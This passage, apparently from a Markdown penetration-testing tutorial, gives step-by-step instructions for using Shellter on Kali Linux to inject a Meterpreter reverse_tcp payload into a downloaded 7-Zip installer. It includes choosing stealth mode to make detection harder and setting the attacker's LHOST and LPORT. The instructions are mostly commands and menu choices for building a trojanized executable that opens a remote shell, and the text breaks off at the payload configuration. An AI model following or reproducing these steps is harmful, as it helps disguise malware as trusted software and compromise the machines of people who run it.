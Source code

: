     ```
    
4. **Run Shellter:**
    
    ```bash
    
    sudo shellter
    
    ```
    
    - If you encounter errors, **remove the `.wine` directory** and try again:
        
        ```bash
        
        rm -rf ~/.wine
        sudo shellter
        
        ```
        

---

### **Step 2: Prepare the EXE File for Injection**

1. **Download a Sample EXE:**
    - Use **7zip** as the target executable for the injection:
        
        ```bash
        
        wget https://www.7-zip.org/a/7z2107-x64.exe -O /home/kali/Downloads/7zip.exe
        
        ```
        

---

### **Step 3: Inject Payload into the EXE Using Shellter**

1. **Launch Shellter:**
    
    ```bash
    
    sudo shellter
    
    ```
    
2. **Choose Automatic Injection Mode:**
    - When prompted, select **Automatic (A)**.
3. **Specify the Location of the EXE:**
    - Provide the path to the 7zip EXE file:
        
        ```arduino
        
        /home/kali/Downloads/7zip.exe
        
        ```
        
4. **Enable Stealth Mode:**
    - Select **Y** to enable stealth mode, which makes detection more difficult.
5. **Select a Payload:**
    - When asked whether to use a **listed payload or custom (L/C/H)**, choose **L**.
6. **Select Payload Option:**
    - Choose **Option 1: meterpreter_reverse_tcp**.
7. **Configure Payload Parameters:**
    - Set the **LHOST** (your Kali IP) and **LPORT** (e.g., 4444).
        - Example:
            